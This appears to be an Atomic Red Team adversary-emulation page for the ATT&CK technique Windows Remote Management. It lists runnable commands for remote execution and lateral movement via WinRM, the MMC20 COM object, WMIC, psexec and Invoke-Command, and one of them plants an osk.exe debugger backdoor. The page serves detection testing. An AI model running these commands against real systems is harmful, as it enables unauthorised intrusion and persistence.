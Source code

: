 # T1028 - Windows Remote Management
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1028)
<blockquote>Windows Remote Management (WinRM) is the name of both a Windows service and a protocol that allows a user to interact with a remote system (e.g., run an executable, modify the Registry, modify services). (Citation: Microsoft WinRM) It may be called with the <code>winrm</code> command or by any number of programs such as PowerShell. (Citation: Jacobsen 2014)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Enable Windows Remote Management](#atomic-test-1---enable-windows-remote-management)

- [Atomic Test #2 - PowerShell Lateral Movement](#atomic-test-2---powershell-lateral-movement)

- [Atomic Test #3 - WMIC Process Call Create](#atomic-test-3---wmic-process-call-create)

- [Atomic Test #4 - Psexec](#atomic-test-4---psexec)

- [Atomic Test #5 - Invoke-Command](#atomic-test-5---invoke-command)


<br/>

## Atomic Test #1 - Enable Windows Remote Management
Powershell Enable WinRM

**Supported Platforms:** Windows


#### Run it with `powershell`!  Elevation Required (e.g. root or admin) 
```
Enable-PSRemoting -Force
```



<br/>
<br/>

## Atomic Test #2 - PowerShell Lateral Movement
Powershell lateral movement using the mmc20 application com object

Reference:

https://blog.cobaltstrike.com/2017/01/24/scripting-matt-nelsons-mmc20-application-lateral-movement-technique/

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| computer_name | Name of Computer | string | computer1|

#### Run it with `command_prompt`! 
```
powershell.exe [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.application","#{computer_name}")).Documnet.ActiveView.ExecuteShellCommand("c:\windows\system32\calc.exe", $null, $null, "7")
```



<br/>
<br/>

## Atomic Test #3 - WMIC Process Call Create
Utilize WMIC to start remote process

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | Username | String | DOMAIN\Administrator|
| password | Password | String | P@ssw0rd1|
| computer_name | Target Computer Name | String | Target|

#### Run it with `command_prompt`! 
```
wmic /user:#{user_name} /password:#{password} /node:#{computer_name} process call create "C:\Windows\system32\reg.exe add \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe\" /v \"Debugger\" /t REG_SZ /d \"cmd.exe\" /f"
```



<br/>
<br/>

## Atomic Test #4 - Psexec
Utilize psexec to start remote process

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | Username | String | DOMAIN\Administrator|
| password | Password | String | P@ssw0rd1|
| computer_name | Target Computer Name | String | Target|

#### Run it with `command_prompt`! 
```
psexec \\host -u domain\user -p password -s cmd.exe
```



<br/>
<br/>

## Atomic Test #5 - Invoke-Command
Execute Invoke-command on remote host

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| host_name | Remote Windows Host Name | String | Test|
| remote_command | Command to execute on remote Host | String | ipconfig|

#### Run it with `powershell`! 
```
invoke-command -ComputerName #{host_name} -scriptblock {#{remote_command}}
```



<br/>
